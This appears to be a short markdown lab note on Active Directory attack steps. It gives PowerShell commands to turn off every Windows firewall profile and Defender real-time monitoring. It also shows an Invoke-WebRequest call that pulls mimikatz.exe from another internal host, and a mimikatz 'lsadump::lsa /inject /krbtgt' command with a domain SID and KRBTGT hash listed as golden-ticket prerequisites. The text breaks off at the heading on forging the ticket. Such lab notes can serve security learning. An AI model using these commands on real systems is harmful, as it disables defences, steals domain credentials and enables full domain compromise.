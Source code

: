 


Disabling firewall
Set-NetFirewallProfile -Profile Domain, Private,Public -Enabled False
Get-NetFirewallProfile | Select-Object Name, Enabled

<img width="1043" height="538" alt="image" src="https://github.com/user-attachments/assets/a291ad37-bc17-4ecf-98f7-cfa5a23338c0" />

To check if the "Real time monitoring is on"
Get-MpPreference | Select-Object DisableRealtimeMonitoring

To disable " Real time monitoring"
Set-MpPreference -DisableRealtimeMonitoring $true

The command below was used when Certutil failed
 Invoke-WebRequest -Uri http://10.10.10.17:8110/mimikatz.exe -OutFile C:\Users\app-svc\Downloads\mimikatz.exe

<img width="1016" height="508" alt="image" src="https://github.com/user-attachments/assets/7ec2d507-cbb3-4a59-a689-70524dcffb3b" />





# Golden Ticket

conditions for the Golden ticket
- SID :  S-1-5-21-2499068589-3795281702-463835139
- KRBtGT hash : f3118544a831e728781d780cfdb9c1fa
  
TO run LSA DUMP


using mimikatz to dump,
lsadump::lsa /inject /krbtgt
 
<img width="1013" height="714" alt="image" src="https://github.com/user-attachments/assets/aa529598-5883-4400-a189-a52255a80761" />


## Forging a golden ticket 
